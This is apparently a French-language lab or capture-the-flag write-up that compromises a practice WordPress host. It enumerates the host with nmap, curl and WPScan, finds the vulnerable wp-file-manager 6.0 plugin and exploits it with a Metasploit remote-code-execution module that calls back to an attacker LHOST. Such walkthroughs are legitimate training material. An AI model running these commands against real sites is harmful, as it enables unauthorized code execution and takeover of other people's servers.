





**Description**
WordPress is a popular content management system where users can easily create, edit and manage websites.  
  
It is recommended to practice scanning a WordPress website to identify security vulnerabilities and gain access to the system through these vulnerabilities.

#### Étape 1: Enumération

- Découverte de ports ouverts, service et leur version

Commande:
```
nmap -sC -sV beyondbound.hv 
```
On a qu'un seul port , le port 80



- Identifier le CMS(Content Management System) utilisé.
Le CMS est un logiciel qui permet de créer, gérer et modifier facilement des sites web et du contenu numérique sans avoir besoin de connaissances techniques approfondies en codage.

Vérifier dans la balise meta , la partie generator

Commande :

```
curl http://beyondbound.hv | grep "generator" 
```



Le CMS utilisé est Wordpress avec la version 6.3.1

- Scan  de vulnérabilité wordpress avec l'outil WPScan

L'outil WPScan Scan est un outil utilisé pour scanner le  CMS Wordpress pour la découverte de vulnérabilité.
Quelque Commande utile:

```
--url : Target to scan
--help: Help menu
--output: Output file
--detection-mode: mixed, passive, aggressive
--max-threads : Number of threads running concurrently
--wp-content-dir: Used to specify the path to the wp-content directory
--wp-plugins-dir: Used to specify the path to the wp-plugins directory
--enumerate : Used to specify the information collection mode
vp Vulnerable plugins
ap All plugins
p Popular plugins
vt Vulnerable themes
at All themes
t Popular themes
--plugins-detection: mixed, passive, aggressive
--plugins-version-detection: mixed, passive, aggressive
```

**Énumération de plugins en mode agressif**

```
wpscan --url beyondbound.hv --enumerate p --plugins-detection aggressive 
```

Identification de wp-file-manager v 6.0
##### Étape 2: Recherche de vulnérabilité sur le wp-file-manager

Le plugin File Manager ( wp-file-manager) de 6.0 à 6.8 pour WordPress permet aux attaquants distants de uploader et  exécuter du code PHP arbitraire parce qu'il renomme un exemple dangereux de fichier de connecteur **elFinder** pour avoir l'extension .**php**  
extension. Cela, par exemple, permet aux attaquants d'exécuter la commande elFinder upload (ou mkfile and put) pour écrire  
Code PHP dans le répertoire wp-content/plugins/wp-file-manager/lib/files/.

##### Étape 3: Exploitation avec metasploit 

```
msf > use exploit/multi/http/wp_file_manager_rce    
msf exploit(wp_file_manager_rce) > set RHOSTS YOUR_IP   
msf exploit(wp_file_manager_rce) > set LHOST MY_IP    
msf exploit(wp_file_manager_rce) > show options       
msf exploit(wp_file_manager_rce) > exploit  
```





